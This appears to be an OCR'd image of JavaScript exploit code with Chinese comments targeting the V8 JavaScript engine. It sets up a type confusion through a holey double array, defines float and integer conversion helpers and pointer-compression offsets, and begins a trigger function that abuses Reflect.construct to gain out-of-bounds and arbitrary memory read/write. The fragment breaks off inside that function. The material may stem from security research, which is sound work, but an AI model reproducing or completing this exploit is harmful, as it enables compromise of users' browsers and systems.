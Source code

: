 ```javascript
// 地址泄露

let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];	// 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;									// 用来将类型混淆转化为越界读写
var uint64_arw;									// 构造任意地址读写
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

// obj_leader的偏移
var obj_leader_offset;
// uint64_arw中三个关键值的相对偏移
var uint64_length_offset;	
var uint64_externalptr_offset;
var uint64_baseptr_offset;	
// 保存uint64_arw的三个关键值
var uint64_length;
var uint64_externalptr_ptr;
var uint64_baseptr_ptr;
// 指针压缩下的高32位地址
var compress_head_high32_addr;

// 用来实现类型转换
var buf =new ArrayBuffer(16);
var uint32 = new Uint32Array(buf);
var float64 = new Float64Array(buf);
var big_uint64 = new BigUint64Array(buf);
// float-->uint
function f2i(f)
{
    float64[0] = f;
    return big_uint64[0];
}
// uint-->float
function i2f(i)
{
    big_uint64[0] = i;
    return float64[0];
}
// 64-->32
function f2half(val)
{
    float64[0]= val;
    let tmp = Array.from(uint32);
    return tmp;
}
// 32-->64
function half2f(val)
{
    uint32.set(val);
    return float64[0];
}
// 显示十六进制，纯粹为了美观
function hex(a) {
	return "0x" + a.toString(16);
}

// 漏洞所需的函数
function empty() {}
function f(p) {
	// 2.42902434121390450978968281326E-319 == 0xC00C
	vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
```